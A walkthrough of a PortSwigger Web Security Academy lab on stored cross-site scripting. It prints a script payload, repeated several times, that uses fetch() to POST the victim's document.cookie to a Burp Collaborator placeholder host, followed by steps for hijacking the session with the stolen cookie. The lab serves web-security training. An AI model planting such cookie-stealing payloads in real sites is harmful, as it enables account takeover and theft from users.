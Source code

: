 # 🧪 Lab: Exploiting Cross-Site Scripting to Steal Cookies

**Lab URL:** https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies

## 🎯 High-Level Summary

**Objective:** Exploit a stored XSS vulnerability in the blog comment section to exfiltrate the victim's session cookie and use it to impersonate the victim.

**Key Techniques & Concepts:**

- **Stored Cross-Site Scripting (XSS)**
    
- **JavaScript Fetch API for Data Exfiltration**
    
- **Burp Collaborator for External Interactions**
    

**What Makes This Vulnerable?**

- The web application reflects untrusted input into the blog comments without proper sanitization.
    
- The vulnerable context allows arbitrary JavaScript execution on the victim's browser.
    

---

## 🧑‍💻 PortSwigger Solution

1. **Set Up Burp Collaborator:**
    
    - Open **Burp Suite Professional** and navigate to the **Collaborator** tab.
        
    - Click **Copy to Clipboard** to obtain a unique Burp Collaborator subdomain.
        
2. **Submit Malicious Comment:**
    
    - Post a comment on the blog using the following payload, replacing `BURP-COLLABORATOR-SUBDOMAIN` with the copied subdomain:
        
    
    ```
    <script>
    fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
    });
    </script>
    ```
    
3. **Trigger the XSS:**
    
    - Wait for the victim to view the comments section where the payload was injected.
        
4. **Capture the Cookie:**
    
    - Go back to the **Collaborator** tab and click **Poll now**.
        
    - Confirm receipt of the HTTP request containing the victim's session cookie in the request body.
        
5. **Session Hijacking:**
    
    - Copy the captured session cookie.
        
    - Use **Burp Proxy** or the browser's developer tools to replace your own session cookie with the stolen one.
        
    - Navigate to `/my-account` to verify you have successfully impersonated the victim.
        

---

## 📚 Instructor Solution

### Step 1: Confirm XSS Vulnerability

- Navigate to the blog post comment section and submit a basic test payload:
    
    ```
    <script>alert(1)</script>
    ```
    
- Confirm the alert box appears, verifying the XSS vulnerability.
    

### Step 2: Construct the Payload

- Submit the following JavaScript payload in a blog comment:
    
    ```
    <script>
    fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
    });
    </script>
    ```
    

### Step 3: Use Burp Collaborator

- Go to **Burp Collaborator**, copy the public subdomain, and insert it into the payload.
    
- Click **Poll now** after submission to verify incoming requests.
    

### Step 4: Capture and Use the Cookie

- Extract the session cookie from the captured HTTP request.
    
- Open the **Application** tab in the browser's Developer Tools.
    
- Go to **Storage > Cookies** and replace the session cookie with the captured one.
    
- Change the URL to `/my-account` to access the victim's session.
    

✅ **Lab completed successfully.**

---

## 💡 Explanation of Payloads and Techniques

### **How the Payload Works:**

- The `<script>` tag executes JavaScript in the victim's browser.
    
- `fetch()` makes an HTTP POST request to the attacker's **Burp Collaborator** server.
    
- `mode: 'no-cors'` is used to bypass CORS restrictions (explained below).
    
- `document.cookie` sends the current session cookie to the attacker.
    

### **What is CORS?**

- **CORS (Cross-Origin Resource Sharing)** is a browser security feature that restricts web pages from making requests to a domain different from the one serving the web page.
    
- By default, web browsers block cross-origin requests due to security concerns.
    

### **Why Use** `**mode: 'no-cors'**`**?**

- The `mode: 'no-cors'` setting in the `fetch()` API prevents the browser from blocking the request.
    
- However, when using `no-cors` mode, the response body cannot be read. This is acceptable here because the goal is to **send** data, not retrieve it.
    

### **Why This Works:**

- The blog comments feature directly reflects user input without sanitization.
    
- The victim automatically loads the comment, executing the XSS payload.
    
- The cookie is accessible in the JavaScript context due to the lack of `HttpOnly` flag on the session cookie.
    

---

## 🛠️ Tools and Commands

- **Burp Suite Professional:** Collaborator, Repeater
    
- **Payload:**
    
    ```
    <script>
    fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
    });
    </script>
    ```
    
- **Resources:** [PortSwigger XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)